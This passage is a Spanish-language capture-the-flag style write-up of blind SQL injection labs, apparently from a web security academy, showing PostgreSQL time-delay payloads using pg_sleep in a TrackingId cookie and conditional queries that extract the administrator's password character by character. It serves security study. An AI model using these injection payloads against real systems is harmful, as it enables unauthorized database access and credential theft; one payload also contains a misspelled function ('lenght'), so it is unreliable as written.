 ```shell
python3 SQLI_Conditional_Error_PostgreSQL.py
```

Y esto nos daria la contraseña del `admin`, nos registramos y ya estaria listo...

### Lab: Blind SQL injection with time delays

Lo que hay que hacer aqui basicamente es que la web tarde en responder 10 segundos, para ello lo que haremos sera una inyeccion de `mysql` con tiempos de espera (`sleep`), por lo que hariamos lo siguiente...

Antes de nada vemos que se esta trabajando con una base de datos `PostgreSQL` por lo que se utiliza de otra manera para mandar `sleep` aunque eso se puede ir viendo haciendo pruebas cuales funionan y cuales no...

```mysql
'||pg_sleep(10)-- -;
```

Esto hay que ubicarlo donde pone `TrackingId` ya que es la zona inyectable...

Con esto lo que hacemos es que tarde en respondernos la pagina 10 segundos, por lo que ya estaria hecho...

### Lab: Blind SQL injection with time delays and information retrieval

En esta practica lo que hay que hacer es sacar la contraseña del `admin` mediante `sleep` jugando con esas opciones, como si fuera un `true/false`...

```mysql
'||(select case when (1=1) then pg_sleep(10) else pg_sleep(0) end from users where username='administrator')-- -;
```

Lo que estamos haciendo aqui es que cuando se cumpla la comparacion `1=1` (Que es siempre) se tardara la pagina en respondernos 10 segundos, pero de lo contrario (`else`) tardara 0 segundos, entendiendo que existe la tabla `users` con el usuario `administrator`, con esto podemos comprobar que todo se cumple correctamente...

```mysql
'||(select case when (1=1) then pg_sleep(10) else pg_sleep(0) end from users where username='administrator' and lenght(password)>=20)-- -;
```

Con esto comprobamos que la contarseña tenga 20 caracteres, si va bien tardara 10 segundos en respondernos...

```mysql
'||(select case when substring(username,1,1)='a' then pg_sleep(10) else pg_sleep(0) end from users where username='administrator')-- -;
```

Con esto comprobamos que vaya esta mecanica de comprobar letras por filas, con el nombre de usuario, ya que se cumple la comparacion de que el `username` `administrator` empieza por la letra `a` tardara 10 segundos en respondernos la pagina por lo que funciona, ahora lo mismo pero con la `password` implementandolo en el script...
